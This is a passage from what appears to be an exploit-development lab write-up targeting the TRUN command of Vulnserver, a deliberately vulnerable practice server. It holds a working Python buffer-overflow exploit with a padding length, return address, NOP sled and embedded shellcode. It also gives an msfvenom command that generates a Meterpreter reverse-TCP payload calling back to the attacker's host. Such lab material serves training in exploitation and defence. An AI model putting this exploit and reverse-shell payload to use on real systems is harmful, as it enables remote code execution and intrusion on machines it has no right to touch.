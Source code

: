 ```python
buf += b"\x1d\x10\x67\xa7\x5e\x39\xac\xf3\x0e\x51\x05\x7c\xc5"
buf += b"\xa1\xaa\xa9\x4a\xf1\x04\x02\x2b\xa1\xe4\xf2\xc3\xab"
buf += b"\xea\x2d\xf3\xd4\x20\x46\x9e\x2f\xa3\xa9\xf7\x2f\x41"
buf += b"\x42\x0a\x2f\xad\x3c\x83\xc9\xc7\x50\xc2\x42\x70\xc8"
buf += b"\x4f\x18\xe1\x15\x5a\x65\x21\x9d\x69\x9a\xec\x56\x07"
buf += b"\x88\x99\x96\x52\xf2\x0c\xa8\x48\x9a\xd3\x3b\x17\x5a"
buf += b"\x9d\x27\x80\x0d\xca\x96\xd9\xdb\xe6\x81\x73\xf9\xfa"
buf += b"\x54\xbb\xb9\x20\xa5\x42\x40\xa4\x91\x60\x52\x70\x19"
buf += b"\x2d\x06\x2c\x4c\xfb\xf0\x8a\x26\x4d\xaa\x44\x94\x07"
buf += b"\x3a\x10\xd6\x97\x3c\x1d\x33\x6e\xa0\xac\xea\x37\xdf"
buf += b"\x01\x7b\xb0\x98\x7f\x1b\x3f\x73\xc4\x2b\x0a\xd9\x6d"
buf += b"\xa4\xd3\x88\x2f\xa9\xe3\x67\x73\xd4\x67\x8d\x0c\x23"
buf += b"\x77\xe4\x09\x6f\x3f\x15\x60\xe0\xaa\x19\xd7\x01\xff"


buffer = "A" * 2003  + "\xaf\x11\x50\x62" + "\x90" * 28 + buf


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.recv(1024)
s.send("TRUN /.:/" + buffer)
s.recv(1024)

print "[+] Buffer sent!"

s.close()
```

<img src="https://i.imgur.com/FMAeUQY.png"/>

If we want we can get a meterpreter shell as well 

<img src="https://i.imgur.com/FXnBGPI.png"/>

<img src="https://i.imgur.com/0pJM0tl.png"/>

But we won't able to get a cmd shell as the vulnserver process will be terminated so we need to use `EXITFUNC=thread` in our payload

<img src="https://i.imgur.com/EzxR6Zn.png"/>

<img src="https://i.imgur.com/8OMLNIn.png"/>

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=eth0 LPORT=2222  EXITFUNC=thread -f python -b "\x00" 
```

<img src="https://i.imgur.com/Nso6T3H.png"/>

## References
